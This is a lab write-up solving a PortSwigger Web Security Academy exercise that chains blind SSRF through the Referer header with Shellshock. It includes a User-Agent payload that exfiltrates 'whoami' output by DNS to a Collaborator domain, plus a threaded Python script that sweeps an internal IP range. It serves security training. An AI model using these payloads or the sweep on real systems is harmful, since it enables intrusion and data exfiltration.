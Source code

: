 # Blind SSRF with Shellshock exploitation | Mar 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation), you'll learn: Blind SSRF with Shellshock exploitation! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a [blind SSRF](https://portswigger.net/web-security/ssrf/blind) attack against an internal server in the `192.168.0.X` range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301185609.png)

In here, we can view other products' details:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301185632.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301185651.png)

In `/product`, it has a `Referer` header, which can be tested for ***blind SSRF***.

**To do so, I'll:**

- Go to Burp Suite's Collaborator, and copy the payload:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301185754.png)

- Add that payload in the `Referer` header, and send the request:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301185851.png)

- Go back to Burp Suite's Collaborator, click "Pull now" to confirm the blind SSRF vulnerability:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301185924.png)

As you can see, we received 2 DNS lookups, which means **the web application is indeed vulnerable to blind SSRF via the `Referer` header!**

Simply identifying a blind [SSRF vulnerability](https://portswigger.net/web-security/ssrf) that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. Since you cannot view the response from the back-end request, the behavior can't be used to explore content on systems that the application server can reach. However, it can still be leveraged to probe for other vulnerabilities on the server itself or on other back-end systems. You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server.

### Sweep internal IP address & Shellshock exploitation

Now, we can try to test the internal services are vulnerable to Shellshock or not.

> Shellshock is effectively a Remote Command Execution (RCE) vulnerability in BASH. The vulnerability relies in the fact that BASH incorrectly executes trailing commands when it imports a function definition stored into an environment variable. (From [OWASP Shellshock Vulnerability PDF](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf))

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301190730.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301190739.png)

Armed with above information, we can the following payload to try to **exploit Shellshock via blind SSRF in `Referer` and `User-Agent` header**:

**`User-Agent` header:**
```bash
() { :; }; /usr/bin/nslookup $(whoami).vbal3wg7zfqmnb0l7sp8wngzvq1ip9dy.oastify.com/
```

This payload will run OS command `nslookup` to query the Burp Collaborator's domain, with the `whoami` command's output appended to the subdomain.

**`Referer` header:**
```
http://192.168.0.x:8080
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301191755.png)

If we got a hit in Burp Suite's Collaborator, we confirm there's a internal service that's vulnerable to Shellshock.

**Now, I'll write a Python script to sweep all the internal services ranging from `192.168.0.1` to `192.168.0.254`:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

class Exploit:
    def __init__(self, URL):
        self.URL = URL

    def sendPayload(self, ShellshockPayload, internalIPAddress):
        header = {
            'User-Agent': ShellshockPayload,
            'Referer': internalIPAddress
        }

        requests.get(self.URL, headers=header)

def main():
    URL = 'https://0a59001003ff1aa3c1a521b300450093.web-security-academy.net/product?productId=1'
    exploit = Exploit(URL)

    print('[+] Sending Shellshock payload...')
    ShellshockPayload = "() { :; }; /usr/bin/nslookup $(whoami).547vw69hspjwgltv02iipx99o0utij68.oastify.com"
    print(f'[+] Payload: {ShellshockPayload}')
    for lastOctet in range(1, 255):
        internalIPAddress = f'http://192.168.0.{lastOctet}:8080'
        print(f'[*] Trying IP: {internalIPAddress}', end='\r')

        thread = Thread(target=exploit.sendPayload, args=(ShellshockPayload, internalIPAddress))
        thread.start()
        sleep(0.1)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/Portswigger-Labs/Server-Side-Request-Forgery)-[2023.03.01|19:36:48(HKT)]
└> python3 blind_ssrf_shellshock.py
[+] Sending Shellshock payload...
[+] Payload: () { :; }; /usr/bin/nslookup $(whoami).547vw69hspjwgltv02iipx99o0utij68.oastify.com
```

**Burp Suite's Collaborator:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301193844.png)

Nice! We have 2 DNS lookups, and successfully exfiltrated the OS username!!

Let's submit that!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301193912.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Server-Side-Request-Forgery/SSRF-7/images/Pasted%20image%2020230301193921.png)

# What we've learned:

1. Blind SSRF with Shellshock exploitation